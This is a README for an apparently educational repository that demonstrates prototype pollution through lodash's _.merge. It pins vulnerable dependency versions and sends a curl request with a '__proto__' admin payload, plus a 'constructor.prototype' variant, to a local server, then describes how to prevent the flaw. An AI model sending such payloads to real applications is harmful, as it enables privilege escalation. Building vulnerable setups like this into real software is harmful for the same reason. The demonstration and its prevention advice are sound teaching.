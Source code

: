 # Demonstration of _.merge pollution vulnerability

Prototype pollution is one of those security warnings that npm install sometimes outputs.
This repo demonstrates this exact security vulnerability: https://snyk.io/vuln/SNYK-JS-LODASHMERGE-173732.

Other links:

* How prototype pollution might lead to RCE: https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
* More real-world exploits: https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf
* https://medium.com/node-modules/what-is-prototype-pollution-and-why-is-it-such-a-big-deal-2dd8d89a93c.


## Test it yourself

In the package.json, lodash has been specifically locked to vulnerable version `4.6.1`. Also express-validation is specifically using the 1. major version since it used to allow unknown properties in schemas.

* `git clone git@github.com:kimmobrunfeldt/lodash-merge-pollution-example.git`
* `cd lodash-merge-pollution-example`
* `npm i`
* `npm start` to start the express server
* Then in another console `curl -H"content-type: application/json" -d@attack.json http://localhost:9999/api/orders`
* After that the global object prototype has been polluted

    This means that whenever any part of the code for example creates a new object, it's prototype
    will have the properties given in [attack.json](attack.json).

    ```js
    const newObj = {};
    // newObj.test equals now `true`
    ```

    The attack.json uses this:

    ```json
    "__proto__": { "admin": true }
    ```

    but it could be replace with the json below with same effect:

    ```json
    "constructor": { "prototype": { "admin": true } }
    ```

* If you call `curl http://localhost:9999/api/orders/0000` you can notice that the prototype pollution affects the whole node process.



## How to prevent this

Snyk has a good list how to prevent the vulnerability here: https://snyk.io/vuln/SNYK-JS-LODASHMERGE-173732#how-to-prevent.
Below are my personal main tactics to deal with the issue.

### Keep dependencies updated

By default npm will use a range of semver in package.json, so doing a re-install will also update
package-lock.json and should install the new security fixes.

For example `"lodash": "^4.6.1"` in package.json should now install the latest (at this moment) `4.17.15` version
since the hat character (`^`) allows semver minor and patch updates when the version is >= major 1.

#### package-lock.json dilemma

Locking dependencies with package-lock.json is definitely useful. Your production deployment doesn't
suddenly fail to a minor/patch update, if you install dependencies with `npm ci`. However it's
a double-edged sword: keeping versions locked doesn't break your apps functionality, but it might
allow newly found security vulnerabilities to creep longer in your app.


### Disallow unexpected input

In this example, we have [express-validation](https://github.com/andrewkeig/express-validation) which
is great. However the older version (1.x.x) allows unknown properties by default.

The newer version which is safer by default and disallows all unknown properties from schemas.
